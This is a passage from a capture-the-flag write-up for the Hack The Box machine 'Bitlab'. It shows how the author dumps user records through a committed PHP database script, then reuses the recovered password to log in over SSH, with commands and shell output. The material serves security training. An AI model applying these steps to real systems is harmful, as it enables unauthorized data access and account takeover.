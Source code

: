 ## User

In the home page of the Profile project, there is a hint, is mentioned a connection postgresql and snippets, we go to the snippets page, and we found we have one

{% include figure image_path="/assets/images/htb/bitlab/1-intended_user.png" %}

we open it and se it's a script to connect to the database and get a dump of profiles:

```js
<?php
$db_connection = pg_connect("host=localhost dbname=profiles user=profiles password=profiles");
$result = pg_query($db_connection, "SELECT * FROM profiles");
```

then, inside the profile project we add a new file with that code, but also we create an array with ```pg_fetch_all($result)``` in order to save all the profiles dumped, so the result is this one:

```js
<?php
$db_connection = pg_connect("host=localhost dbname=profiles user=profiles password=profiles");
$result = pg_query($db_connection, "SELECT * FROM profiles");
$arr = pg_fetch_all($result);
print_r($arr);
```

After save and merge of it, we go to ```http://10.10.10.114/profile/<name you give to the script>```, and we should get as a result printed an array with our previous user ```clave``` and a password:

```js
Array ( [0] => Array ( [id] => 1 [username] => clave [password] => c3NoLXN0cjBuZy1wQHNz== ) )
```

before trying to crack the password, we try to use as it is, and indeed it was just that one it was not encrypted!

```console
root@kali:~/Documents/HTB/boxes/medium/linux/bitlab# ssh 10.10.10.114 -l clave
clave@10.10.10.114's password: 
Last login: Fri Jan 10 19:45:16 2020 from 10.10.14.7
clave@bitlab:~$ id
uid=1000(clave) gid=1000(clave) groups=1000(clave)
clave@bitlab:~$ ls -la
total 44
drwxr-xr-x 4 clave clave  4096 Aug  8 14:40 .
drwxr-xr-x 3 root  root   4096 Feb 28  2019 ..
lrwxrwxrwx 1 root  root      9 Feb 28  2019 .bash_history -> /dev/null
-rw-r--r-- 1 clave clave  3771 Feb 28  2019 .bashrc
drwx------ 2 clave clave  4096 Aug  8 14:40 .cache
drwx------ 3 clave clave  4096 Aug  8 14:40 .gnupg
-rw-r--r-- 1 clave clave   807 Feb 28  2019 .profile
-r-------- 1 clave clave 13824 Jul 30 19:58 RemoteConnection.exe
-r-------- 1 clave clave    33 Feb 28  2019 user.txt
clave@bitlab:~$ wc -c user.txt 
33 user.txt
```
